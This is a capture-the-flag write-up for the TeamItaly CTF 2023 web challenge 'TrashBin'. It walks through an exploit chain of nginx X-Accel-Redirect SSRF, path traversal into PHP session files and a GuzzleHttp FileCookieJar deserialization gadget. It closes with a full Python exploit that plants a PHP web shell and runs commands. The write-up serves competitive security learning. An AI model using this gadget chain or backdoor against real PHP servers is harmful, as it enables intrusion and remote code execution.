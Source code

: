 # TeamItaly CTF 2023

## [web] TrashBin (0 solves)
Tired of having external dependencies for my VAPTs, I decided to create my own service! It's still a work in progress, but I think I'm ready to release the public demo.

Author: Lorenzo Leonardini <@pianka>

## Overview

TrashBin is a request bin ~~clone~~ alternative, useful to log HTTP requests and respond with custom data.

As it's made quite obvious by the `/readflag` binary, our final goal is to reach RCE. Achieving that is not super straight-forward. TL;DR: SSRF + path traversal + object deserialization.

### `X-Accel-Redirect`

The first step we need is getting SSRF in order to make arbitrary requests to the `/internal/` endpoints blocked by the nginx configuration. Why we need SSRF will become clearer later.

SSRF can be done by exploiting some less-known nginx featured, called `X-Accel`.
TL;DR, from the docs: "[X-accel allows for internal redirection to a location determined by a header returned from a backend](https://www.nginx.com/resources/wiki/start/topics/examples/x-accel/)". Basically it's a feature that can be used for authentication, but what we are interested in is that it can be used to do SSRF and access endpoints defined as `internal`.

Since TrashBin allows us to respond with custom headers to each request, we can define a `X-Accel-Redirect` header that points to the PHP files inside the `/internal/` directory.

Now what?

### Corrupting the session

PHP sessions are stored in temp files as serialized PHP objects. The `rotate_logs.php` file reads and writes log files, but doesn't really validate their content. We can exploit the not-so-precise regex used to extract `$__BIN_ID` to achieve path traversal. For example, we can make a request to `/internal/rotate_logs.php?id=/b/../../../../../tmp/sess_PHPSESSID` to start fiddling around with session files.

We can create an account with a username using the following format:

```
****PAYLOAD****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a
```

This will be saved in the session file as something like this:

```
id|s:36:"c6c6742d-3616-4bd1-9340-44eae65eb08b";username|s:106:"****PAYLOAD****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a"
```

When `rotate_logs.php` is executed on this file, it will identify 21 log entries and remove the first one, leaving us with something like

```
PAYLOAD****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a"
```

If we carefully craft our username, we can exploit the deserialization gadget offered by the `GuzzleHttp` library[^1] in order to get arbitrary file write and install a PHP backdoor on the server:

```python
requests.post(f'{URL}', data={
   'username': b'****id|s:36:"c6c6742d-3616-4bd1-9340-44eae65eb08b";pwn|O:31:"GuzzleHttp\\Cookie\\FileCookieJar":4:{s:36:"\x00GuzzleHttp\\Cookie\\CookieJar\x00cookies";a:1:{i:0;O:27:"GuzzleHttp\\Cookie\\SetCookie":1:{s:33:"\x00GuzzleHttp\\Cookie\\SetCookie\x00data";a:10:{s:4:"Name";s:6:"custom";s:5:"Value";s:3:"asd";s:6:"Domain";s:11:"example.com";s:4:"Path";s:1:"/";s:7:"Max-Age";N;s:7:"Expires";N;s:6:"Secure";b:0;s:7:"Discard";b:0;s:8:"HttpOnly";b:0;s:6:"custom";s:34:"<?php system($_GET[\'command\']); ?>";}}}s:39:"\x00GuzzleHttp\\Cookie\\CookieJar\x00strictMode";b:0;s:41:"\x00GuzzleHttp\\Cookie\\FileCookieJar\x00filename";s:35:"/app/trashbin/src/data/backdoor.php";s:52:"\x00GuzzleHttp\\Cookie\\FileCookieJar\x00storeSessionCookies";b:1;};username|s:95:"****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a'
})
```

At this point we only need to use the SSRF vulnerability and chain everything together.

[^1]: GuzzleHttp defines a class called `FileCookieJar` that, on destruction, saves all the cookies in the jar in a file on disk. You can define the file location as well as the cookies, so you can inject PHP code anywhere you want. Understanding how to generate the payload is left as an exercise to the reader :)

### Full exploit

Here is the full automated python exploit:

```python
session1 = requests.Session()
session2 = requests.Session()

backdoor_name = ''.join(random.choices(string.ascii_letters, k=32)) + '.php'

# Register attack user
session1.post(f'{URL}', data={
   'username': b'****id|s:36:"c6c6742d-3616-4bd1-9340-44eae65eb08b";pwn|O:31:"GuzzleHttp\\Cookie\\FileCookieJar":4:{s:36:"\x00GuzzleHttp\\Cookie\\CookieJar\x00cookies";a:1:{i:0;O:27:"GuzzleHttp\\Cookie\\SetCookie":1:{s:33:"\x00GuzzleHttp\\Cookie\\SetCookie\x00data";a:10:{s:4:"Name";s:6:"custom";s:5:"Value";s:3:"asd";s:6:"Domain";s:11:"example.com";s:4:"Path";s:1:"/";s:7:"Max-Age";N;s:7:"Expires";N;s:6:"Secure";b:0;s:7:"Discard";b:0;s:8:"HttpOnly";b:0;s:6:"custom";s:34:"<?php system($_GET[\'command\']); ?>";}}}s:39:"\x00GuzzleHttp\\Cookie\\CookieJar\x00strictMode";b:0;s:41:"\x00GuzzleHttp\\Cookie\\FileCookieJar\x00filename";s:' + str(23 + len(backdoor_name)).encode() + b':"/app/trashbin/src/data/' + backdoor_name.encode() + b'";s:52:"\x00GuzzleHttp\\Cookie\\FileCookieJar\x00storeSessionCookies";b:1;};username|s:95:"****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a****a'
})

# Register helper user
res = session2.post(f'{URL}', data={
   'username': 'pianka'
})

# Set response headers
session2.post(res.url, data={
   'response': 'Thank you for your trash!',
   'headers': json.dumps({
      'X-Accel-Redirect': f'/internal/rotate_logs.php?id=/b/../../../../../tmp/sess_{session1.cookies["PHPSESSID"]}'
   })
})

# SSRF
session2.get(res.url.replace('/m/', '/b/'))

# Install backdoor
session1.get(URL)

# RCE
res = session1.get(f'{URL}/data/{backdoor_name}?command=/readflag')
print(res.text)
```
